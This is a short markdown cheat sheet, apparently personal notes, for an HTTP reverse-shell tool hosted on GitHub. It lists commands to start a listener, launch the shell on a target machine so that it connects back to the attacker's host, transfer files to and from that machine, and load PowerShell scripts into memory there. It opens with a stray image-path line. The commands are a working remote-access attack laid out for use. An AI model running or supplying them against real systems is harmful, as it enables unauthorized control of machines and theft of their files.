 ### Source
https://github.com/3v4Si0N/HTTP-revshell  

### Start listener
```
$> python3 server.py <lhost> <lport> --ssl
```

### Start on target machine
```
PS> Invoke-WebRev -ip <lhost> -port <lport> -ssl
```

### Upload/download files
```
PS> upload <source/path> <C:\destination\path>
```

### Load powershellscript into memory
```
PS> loadps1 <source/path>
```

### For server: you might need to install
```
sudo apt install libncurses5-dev
```

